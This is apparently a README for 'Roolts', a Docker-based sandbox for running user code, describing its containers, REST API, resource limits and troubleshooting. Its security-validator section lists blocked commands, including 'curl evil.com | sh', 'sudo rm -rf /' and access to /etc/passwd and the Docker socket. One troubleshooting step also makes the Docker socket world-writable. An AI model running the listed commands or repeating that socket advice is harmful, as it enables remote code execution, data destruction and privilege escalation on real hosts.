










# 🐳 Docker Virtual Environment System - Complete Guide

> **A beginner-friendly guide to understanding how Roolts uses Docker to create isolated coding environments**

---

## 📚 Table of Contents

1. [What is This System?](#what-is-this-system)
2. [Why Docker?](#why-docker)
3. [System Architecture](#system-architecture)
4. [How It Works](#how-it-works)
5. [Components Explained](#components-explained)
6. [Request Flow](#request-flow)
7. [Security Features](#security-features)
8. [API Reference](#api-reference)
9. [Troubleshooting](#troubleshooting)

---

## 🎯 What is This System?

The **Docker Virtual Environment System** allows users to:
- Write and run code (Python, JavaScript, Java) in **isolated containers**
- Install packages without affecting the main server
- Create, edit, and delete files safely
- Execute terminal commands in a sandboxed environment

**Think of it like this:** Each user gets their own mini-computer (Docker container) where they can code freely without breaking anything on the main server.

---

## 🤔 Why Docker?

### The Problem We Solved

**Before (Insecure):**
```
User writes code → Runs on main server → 💥 Could break everything!
```

**After (Secure with Docker):**
```
User writes code → Runs in isolated container → ✅ Main server stays safe!
```

### Benefits

| Feature | Without Docker | With Docker |
|---------|---------------|-------------|
| **Security** | ❌ Code runs on host | ✅ Isolated container |
| **File Storage** | ❌ In-memory (lost on refresh) | ✅ Persistent Docker volumes |
| **Package Install** | ❌ Affects host system | ✅ Only affects container |
| **Multi-User** | ❌ Conflicts between users | ✅ Each user has own container |
| **Resource Limits** | ❌ No limits | ✅ CPU, memory, disk limits |

---

## 🏗️ System Architecture

### High-Level Overview



### Component Layers



---

## ⚙️ How It Works

### 1. Environment Creation Flow



### 2. Code Execution Flow



### 3. File Operations Flow



---

## 🧩 Components Explained

### 1. Docker Manager (`docker_manager.py`)

**What it does:** Manages the lifecycle of Docker containers

**Key Responsibilities:**
- ✅ Creates containers with resource limits
- ✅ Starts/stops containers
- ✅ Executes commands inside containers
- ✅ Manages network access (disabled by default)
- ✅ Destroys containers when no longer needed

**Example:**
```python
# Create a fullstack environment
container_id, volume_name = docker_manager.create_environment(
    user_id=1,
    env_id=1,
    env_type='fullstack',  # Node.js + Python
    name='my-project'
)

# Execute a command
exit_code, stdout, stderr = docker_manager.execute_command(
    container_id,
    'python app.py',
    timeout=30
)
```

**Container Types:**

| Type | Base Image | Languages | Use Case |
|------|-----------|-----------|----------|
| `nodejs` | node:18-alpine | JavaScript | Frontend projects |
| `python` | python:3.11-alpine | Python | Python scripts |
| `fullstack` | node:18-alpine + Python | JS + Python | Full-stack apps |
| `cpp` | gcc:latest | C/C++ | System programming |

### 2. Security Validator (`security_validator.py`)

**What it does:** Protects the system from malicious commands

**Blocked Patterns:**
```python
# ❌ These commands are automatically blocked:
sudo rm -rf /                    # System destruction
curl evil.com | sh               # Remote code execution
/etc/passwd                      # Privilege escalation
/var/run/docker.sock            # Container escape
nmap 192.168.1.1                # Network attacks
```

**Validation Flow:**


### 3. File Manager (`file_manager.py`)

**What it does:** Handles file operations in containers

**Operations:**
- 📂 List directory contents
- 📄 Read file contents
- ✏️ Write/update files
- 🗑️ Delete files/directories
- 📁 Create directories
- 🔄 Move/rename files

**Security Features:**
- ✅ All paths must be in `/workspace`
- ✅ No path traversal (`../` blocked)
- ✅ File size limit: 10MB
- ✅ Executable files blocked
- ✅ Content encoded in base64 for safe transfer

### 4. Package Manager (`package_manager.py`)

**What it does:** Installs packages safely

**Supported Package Managers:**
- `npm` - Node.js packages
- `yarn` - Alternative Node.js package manager
- `pip` / `pip3` - Python packages
- `apt-get` - Debian/Ubuntu system packages
- `apk` - Alpine Linux packages

**Network Security:**


**Why?** Network is only enabled during package installation, then immediately disabled for security.

---

## 🔄 Request Flow

### Complete Request Lifecycle



### Example: Running Python Code

**Step-by-Step:**

1. **User clicks "Run"** in the code editor
2. **Frontend** sends:
   ```javascript
   POST /api/virtual-env/environments/1/execute
   Headers: { X-User-ID: 1 }
   Body: { command: "python app.py" }
   ```
3. **Backend** validates:
   - ✅ User ID exists
   - ✅ Environment ID=1 belongs to user
   - ✅ Command is safe
4. **Docker Manager** executes:
   ```bash
   docker exec <container_id> sh -c "python app.py"
   ```
5. **Container** runs the code and returns output
6. **Backend** logs the execution to database
7. **Frontend** displays the output to user

---

## 🔒 Security Features

### Multi-Layer Security



### Resource Limits

Each container has strict limits:

```python
DEFAULT_LIMITS = {
    'cpu_limit': 1.0,              # 1 CPU core max
    'memory_limit': 512 MB,         # 512MB RAM max
    'pids_limit': 50,               # 50 processes max
    'disk_limit': 1 GB              # 1GB storage max
}
```

### Capabilities

Containers run with minimal Linux capabilities:

```python
cap_drop=['ALL']  # Drop all capabilities
cap_add=[
    'CHOWN',        # Change file ownership
    'DAC_OVERRIDE', # Bypass file permissions
    'FOWNER',       # Bypass permission checks
    'SETGID',       # Set group ID
    'SETUID'        # Set user ID
]
```

---

## 📡 API Reference

### Quick Reference Table

| Operation | Method | Endpoint | Description |
|-----------|--------|----------|-------------|
| **Environment Management** |
| Create | POST | `/api/virtual-env/environments` | Create new environment |
| List | GET | `/api/virtual-env/environments` | List user's environments |
| Get | GET | `/api/virtual-env/environments/{id}` | Get environment details |
| Start | POST | `/api/virtual-env/environments/{id}/start` | Start container |
| Stop | POST | `/api/virtual-env/environments/{id}/stop` | Stop container |
| Delete | DELETE | `/api/virtual-env/environments/{id}` | Destroy environment |
| **Code Execution** |
| Execute | POST | `/api/virtual-env/environments/{id}/execute` | Run command/code |
| Logs | GET | `/api/virtual-env/environments/{id}/logs` | Get execution history |
| **File Operations** |
| List | GET | `/api/virtual-env/environments/{id}/files?path=/workspace` | List files |
| Read | GET | `/api/virtual-env/environments/{id}/files/{path}` | Read file |
| Write | PUT | `/api/virtual-env/environments/{id}/files/{path}` | Write file |
| Create | POST | `/api/virtual-env/environments/{id}/files/create` | Create file/dir |
| Delete | DELETE | `/api/virtual-env/environments/{id}/files/{path}` | Delete file |
| Rename | POST | `/api/virtual-env/environments/{id}/files/rename` | Rename file |
| **Package Management** |
| Install | POST | `/api/virtual-env/environments/{id}/install` | Install packages |
| List | GET | `/api/virtual-env/environments/{id}/packages` | List packages |

### Example Requests

#### Create Environment
```bash
curl -X POST http://localhost:5000/api/virtual-env/environments \
  -H "Content-Type: application/json" \
  -H "X-User-ID: 1" \
  -d '{
    "name": "my-project",
    "type": "fullstack"
  }'
```

**Response:**
```json
{
  "success": true,
  "environment": {
    "id": 1,
    "name": "my-project",
    "environment_type": "fullstack",
    "status": "stopped",
    "container_id": "abc123...",
    "volume_name": "roolts_env_1_1"
  }
}
```

#### Execute Code
```bash
curl -X POST http://localhost:5000/api/virtual-env/environments/1/execute \
  -H "Content-Type: application/json" \
  -H "X-User-ID: 1" \
  -d '{
    "command": "python -c \"print(2 + 2)\"",
    "timeout": 30
  }'
```

**Response:**
```json
{
  "success": true,
  "exit_code": 0,
  "stdout": "4\n",
  "stderr": "",
  "execution_time": 0.15,
  "severity": "safe"
}
```

#### Write File
```bash
curl -X PUT http://localhost:5000/api/virtual-env/environments/1/files/app.py \
  -H "Content-Type: application/json" \
  -H "X-User-ID: 1" \
  -d '{
    "content": "print(\"Hello World!\")"
  }'
```

#### Install Packages
```bash
curl -X POST http://localhost:5000/api/virtual-env/environments/1/install \
  -H "Content-Type: application/json" \
  -H "X-User-ID: 1" \
  -d '{
    "manager": "npm",
    "packages": ["express", "axios"]
  }'
```

---

## 🐛 Troubleshooting

### Common Issues

#### 1. Docker Not Running

**Error:**
```
[ERROR] Docker connection failed: Error while fetching server API version
```

**Solution:**
```bash
# Windows: Start Docker Desktop
# Linux:
sudo systemctl start docker
sudo usermod -aG docker $USER
newgrp docker
```

#### 2. Container Not Created

**Error:**
```
Failed to create environment: Container creation failed
```

**Solution:**
```bash
# Check Docker is running
docker ps

# Pull required images manually
docker pull node:18-alpine
docker pull python:3.11-alpine
docker pull gcc:latest

# Check disk space
docker system df
```

#### 3. Python Not Found (Fixed!)

**Error:**
```
sh: python: not found
```

**Solution:**
This is now automatically fixed! When creating a `fullstack` environment, Python is automatically installed. For existing containers:

```bash
# Manual fix for existing containers
docker exec <container_name> apk add --no-cache python3 py3-pip
docker exec <container_name> ln -sf /usr/bin/python3 /usr/bin/python
```

#### 4. Files Disappearing

**Problem:** Files are lost after container restart

**Cause:** Container was deleted without preserving the volume

**Solution:**
- Files are stored in Docker volumes (persistent)
- Only delete environments when you want to lose the files
- Use "Stop" instead of "Delete" to preserve files

#### 5. Permission Denied

**Error:**
```
Permission denied: /var/run/docker.sock
```

**Solution (Linux):**
```bash
sudo chmod 666 /var/run/docker.sock
# OR
sudo usermod -aG docker $USER
newgrp docker
```

### Debugging Commands

```bash
# List all containers
docker ps -a

# View container logs
docker logs <container_id>

# Execute command in container
docker exec <container_id> sh -c "ls -la /workspace"

# Check container resources
docker stats <container_id>

# Inspect container
docker inspect <container_id>

# List volumes
docker volume ls

# Inspect volume
docker volume inspect <volume_name>
```

---

## 📊 Database Schema

### Tables



---

## 🎓 Learning Path

### For Beginners

1. **Start Here:** Understand [What is This System?](#what-is-this-system)
2. **Learn Why:** Read [Why Docker?](#why-docker)
3. **See the Big Picture:** Study [System Architecture](#system-architecture)
4. **Follow the Flow:** Understand [How It Works](#how-it-works)
5. **Try It Out:** Use the [API Reference](#api-reference)

### For Developers

1. **Architecture:** Study the [Components Explained](#components-explained)
2. **Security:** Review [Security Features](#security-features)
3. **Integration:** Check [Request Flow](#request-flow)
4. **Debugging:** Use [Troubleshooting](#troubleshooting)

### For DevOps

1. **Deployment:** Ensure Docker is installed and running
2. **Monitoring:** Set up container monitoring
3. **Cleanup:** Schedule automatic cleanup of old environments
4. **Scaling:** Consider Docker Swarm or Kubernetes for production

---

## 🚀 Quick Start

### 1. Prerequisites
```bash
# Install Docker
# Windows: Download Docker Desktop
# Linux: curl -fsSL https://get.docker.com | sh

# Verify Docker
docker --version
docker ps
```

### 2. Start Backend
```bash
cd backend
python -m venv venv
source venv/bin/activate  # Windows: venv\Scripts\activate
pip install -r requirements.txt
python app.py
```

### 3. Start Frontend
```bash
cd frontend
npm install
npm run dev
```

### 4. Create Your First Environment

**Via UI:**
1. Open http://localhost:5173
2. Click "Create Environment"
3. Choose "Fullstack" type
4. Start coding!

**Via API:**
```bash
curl -X POST http://localhost:5000/api/virtual-env/environments \
  -H "Content-Type: application/json" \
  -H "X-User-ID: 1" \
  -d '{"name": "test", "type": "fullstack"}'
```

---

## 📝 Summary

### What You Learned

✅ **What:** Docker-based isolated coding environments  
✅ **Why:** Security, isolation, and persistence  
✅ **How:** Multi-layer architecture with Docker containers  
✅ **Security:** Command validation, resource limits, network isolation  
✅ **API:** Complete REST API for all operations  

### Key Takeaways

1. **Each user gets their own Docker container** - Complete isolation
2. **Files are stored in Docker volumes** - Persistent across restarts
3. **All commands are validated** - Security first
4. **Resource limits prevent abuse** - CPU, memory, disk limits
5. **Network is disabled by default** - Only enabled for package installation

---

## 🔗 Related Documentation

- [DOCKER_CONTAINER_RECREATION.md](./DOCKER_CONTAINER_RECREATION.md) - How to recreate containers
- [VIRTUAL_ENV_README.md](./backend/VIRTUAL_ENV_README.md) - Backend implementation details
- [DOCKER_API_REFERENCE.md](./backend/DOCKER_API_REFERENCE.md) - Complete API reference

---

## 📞 Support

**Issues?** Check the [Troubleshooting](#troubleshooting) section first!

**Still stuck?** Open an issue on GitHub with:
- Error message
- Steps to reproduce
- Docker version (`docker --version`)
- OS and version

---

<p align="center">
  <strong>Made with ❤️ by Anas Alam</strong>
</p>
